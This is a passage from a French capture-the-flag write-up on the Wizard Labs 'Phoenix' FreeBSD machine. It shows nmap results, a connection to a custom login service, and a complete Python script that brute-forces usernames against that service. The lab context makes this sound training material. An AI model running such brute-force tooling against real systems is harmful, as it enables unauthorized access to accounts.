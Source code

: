# Solution du CTF Phoenix de Wizard Labs

Passion
-------

C'est parti pour ce petit CTF de *WizardLabs* baptisé *Phoenix* et basé sur FreeBSD.  

Nmap nous trouve une poignée de ports ouverts :  

```plain
22/tcp   open  ssh         OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.33 ((FreeBSD))
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.8.0 (workgroup: WORKGROUP)
2003/tcp open  finger?
```

La version de Samba ne semble pas être impactée par la faille [SambaCry](https://securelist.com/sambacry-is-coming/78674/).  

Sur le serveur Apache on ne trouve rien... absolument rien, c'est la cata :(  

Le port 2003 fait tourner un service custom :  

```plain
$ ncat 10.1.1.12 2003 -v
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Connected to 10.1.1.12:2003.
  ,---.     ,--.          ,--.         ,-----.                             ,--.
 /  O  \  ,-|  |,--,--,--.`--',--,--, '  .--./ ,---. ,--,--,  ,---.  ,---. |  | ,---.
|  .-.  |' .-. ||        |,--.|      \|  |    | .-. ||      \(  .-' | .-. ||  || .-. :
|  | |  |\ `-' ||  |  |  ||  ||  ||  |'  '--'' '-' '|  ||  |.-'  `)' '-' '|  |\   --.
`--' `--' `---' `--`--`--'`--'`--''--' `-----' `---' `--''--'`----'  `---' `--' `----'

Username ?
```

Bien sûr j'ai tenté de brute-forcer ce service pour trouver un identifiant valide :  

```python
import socket
import sys
from time import sleep

wordlist = sys.argv[1]

word = ""
with open(wordlist, errors="ignore") as fd:
    for i, line in enumerate(fd):
        word = line.strip().lower()
        sock = socket.socket()
        sock.settimeout(5)
        try:
            sock.connect(('10.1.1.12', 2003))
            sock.recv(1024) # banner
            sock.recv(1024) # prompt
            sock.send("{}\n".format(word).encode(errors="ignore"))
            buff = sock.recv(1024).decode() # prompt
            sock.close()
            if "Login Failed !" not in buff:
                print("Received '{}' with user '{}'".format(buff, word))
                sleep(1)
        except socket.error:
            print("Socket error with", word)

        except KeyboardInterrupt:
            print("stopped at", word)
```